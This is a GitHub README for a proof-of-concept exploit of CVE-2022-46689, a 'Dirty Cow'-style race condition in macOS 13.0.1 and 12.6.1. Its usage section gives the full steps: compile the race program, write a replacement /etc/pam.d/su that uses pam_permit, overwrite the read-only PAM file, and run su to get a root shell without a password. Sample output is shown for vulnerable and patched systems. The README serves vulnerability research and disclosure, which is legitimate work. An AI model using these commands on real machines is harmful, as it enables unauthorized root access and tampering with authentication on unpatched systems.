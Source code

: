 Get root on macOS 13.0.1 with [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (macOS equivalent of the Dirty Cow bug), using the testcase extracted from [Apple's XNU source](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c).

https://worthdoingbadly.com/macdirtycow/

## Usage

> Note: only can overwrite file with read permission. e.g. cannot overwrite /etc/sudoers file.

On a macOS 13.0.1 / 12.6.1 (or below) machine, run:

```
clang -o switcharoo vm_unaligned_copy_switch_race.c
sed -e "s/rootok/permit/g" /etc/pam.d/su > overwrite_file.bin
sed -i '' "s/wheel/staff/g" overwrite_file.bin
./switcharoo /etc/pam.d/su overwrite_file.bin
su
```

or even replace all 'required'

```
cat << EOF > overwrite_file.bin
# su: auth account session
auth       sufficient     pam_permit.so
auth       optional       pam_opendirectory.so
account    optional       pam_group.so no_warn group=admin,staff ruser root_only fail_safe
account    optional       pam_opendirectory.so no_check_shell
password   optional       pam_opendirectory.so
session    optional       pam_launchd.so
EOF
./switcharoo /etc/pam.d/su overwrite_file.bin
```

You should get:

```
% ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
RO mapping was modified
% su
sh-3.2# 
```

Tested on macOS 13 beta (22A5266r) with SIP off (it should still work with SIP on).

If your system is fully patched (macOS 13.1 / 12.6.2), it should instead read:

```
$ ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
vm_read_overwrite: KERN_SUCCESS:9865 KERN_PROTECTION_FAILURE:3840 other:0
Ran 13705 times in 10 seconds with no failure
```

and running `su` should still ask for a password.

Thanks to Sealed System Volume, running this on any file on the /System volume only modifies the file temporarily: It's reverted on reboot. Running it on a file on a writeable volume will preserve the modification after a reboot.

## Credits

- Ian Beer of Project Zero for finding the issue. Looking forward to your writeup!
- Apple for the test case. (I didn't change anything: I just added the command line parameter to control what to overwrite.)
- [SSLab@Gatech](https://gts3.org/assets/papers/2020/jin:pwn2own2020-safari-slides.pdf) for the trick to disable password checking using `/etc/pam.d`.
